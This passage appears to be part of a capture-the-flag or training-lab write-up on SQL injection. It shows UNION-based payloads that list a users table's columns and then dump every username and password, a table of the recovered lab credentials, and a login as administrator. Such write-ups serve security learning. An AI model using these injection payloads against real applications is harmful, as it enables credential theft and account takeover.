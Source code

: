 ![95acc34a_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/a6aa3021-a092-4bd8-9735-1831444b2858)

**Query Injected:**


```sql
UNION SELECT column_name FROM information_schema.columns where table_name='users'
```

- Dumped all the columns names within the **users** table

- Columns found:

	- **password**

	- **username**

	<br/>

![a7edd1f2_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/ecd10136-4062-4df2-999a-eeeffe72cb11)

**Query Injected:**


```sql
UNION SELECT username || '::' || password FROM users
```

- Dumps all the user credentials from the **password **and **username **columns from the **users **table

- Usernames and passwords will be concatenated for easy viewing

- **User Credentials:**

 | **Username** | **Password** | 
 | ---- | ---- | 
 | administrator | k2g1cftjmx8shpqcilyp | 
 | carlos | 7qty2dot2r1ivuciil5b | 
 | wiener | 3pjuwbpfsyz6wpr9wnno | 

<br/>

![8d29fa3b_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/ed12bce9-2716-47d5-bc66-c5230b53b55e)

![ec17bdb5_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/2b2d1fb0-7780-4ec2-ad8c-030a2d81fabe)

- **Successfully logged in as Administrator**

